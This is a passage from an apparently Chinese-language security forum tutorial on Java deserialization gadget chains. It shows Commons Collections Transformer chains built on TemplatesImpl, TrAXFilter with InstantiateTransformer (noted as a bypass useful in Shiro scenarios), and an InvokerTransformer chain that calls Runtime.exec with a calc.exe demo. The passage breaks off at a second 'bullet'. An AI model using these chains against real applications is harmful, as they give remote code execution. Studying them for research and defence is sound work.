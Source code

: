 ### getOutputProperties

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-44f90d0ea001d78664c2046041e67ba6f2d5fc98.png)

这里我们需要注意的是这里是 get 开头的。

### newTransformer

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-781b954e4c56c8c9c03b2b7e3ccaae4193aa7b2a.png)

这里代码中的内容实际上也不用关注，我们只需要记得这里的这个方法就可以了，我们可以结合 Transformer 来对它进行调用。

```java
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(obj),
                new InvokerTransformer("newTransformer",null,null)
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
```

但是实际上真正使 TemplatesImpl 有了自己的生命力的还是结合 InstantiateTransformer 与 TrAXFilter 初始化的调用方法，这里可以帮助我们对 InvokerTransformer 进行绕过，也可以实现 Shiro 场景下的一些需要。

```java
    Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        };

        ChainedTransformer transformerChain = new ChainedTransformer(transformers);
```

弹夹
--

### 子弹1

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc.exe"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
```

### 子弹2
